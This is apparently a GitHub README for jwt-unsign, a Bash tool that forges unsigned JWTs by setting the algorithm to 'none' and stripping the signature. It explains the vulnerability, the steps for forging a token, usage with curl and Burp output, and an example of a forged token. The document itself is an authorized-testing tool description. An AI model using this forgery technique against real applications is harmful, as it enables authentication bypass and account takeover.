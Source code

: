 # JWT Utilities

A collection of utilities for working with JSON Web Tokens (JWTs), primarily focused on security testing and vulnerability assessment.

## Tools

### [jwt-unsign](jwt-unsign)

A Bash script that exploits the JWT "none" algorithm vulnerability by modifying JWTs found in input streams.

#### What it does

- Searches for JSON Web Tokens in stdin
- Replaces the algorithm (`alg`) value with `"none"`
- Removes the signature component
- Outputs the modified unsigned JWT

#### The Vulnerability

Some JWT implementations accept tokens with `alg` set to `"none"`, which means the token has no signature verification. This allows an attacker to forge tokens by:

1. Taking a valid JWT
2. Modifying the payload (claims)
3. Setting the algorithm to "none"
4. Removing the signature

If the application doesn't properly validate that signatures are required, it will accept the forged token.

#### Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/jwt-utils.git
cd jwt-utils

# Make the script executable
chmod +x jwt-unsign

# Optionally, add to your PATH
sudo ln -s $(pwd)/jwt-unsign /usr/local/bin/jwt-unsign
```

#### Usage

```bash
# Basic usage - pipe text containing JWTs
echo "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c" | jwt-unsign

# Process a file containing JWTs
cat response.txt | jwt-unsign

# Use with curl to test web applications
curl https://api.example.com/user | jwt-unsign

# Use with burp suite or other proxy tools
cat burp-output.txt | jwt-unsign > modified.txt
```

#### Example

Input:

```yaml
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

Output:

```yaml
token: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```

The modified token has:

- Header changed from `{"alg":"HS256","typ":"JWT"}` to `{"alg":"none","typ":"JWT"}`
- Payload remains unchanged: `{"sub":"1234567890","name":"John Doe","iat":1516239022}`
- Signature removed (note the trailing period)

#### Security Note

This tool is intended for **authorized security testing only**. Use it responsibly and only on:

- Systems you own
- Systems you have explicit written permission to test
- CTF (Capture The Flag) competitions
- Educational/learning environments

Unauthorized access to computer systems is illegal.

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on how to contribute to this project.

## License

See [LICENSE](LICENSE) for license information.

## Security

See [SECURITY.md](SECURITY.md) for information about reporting security vulnerabilities.
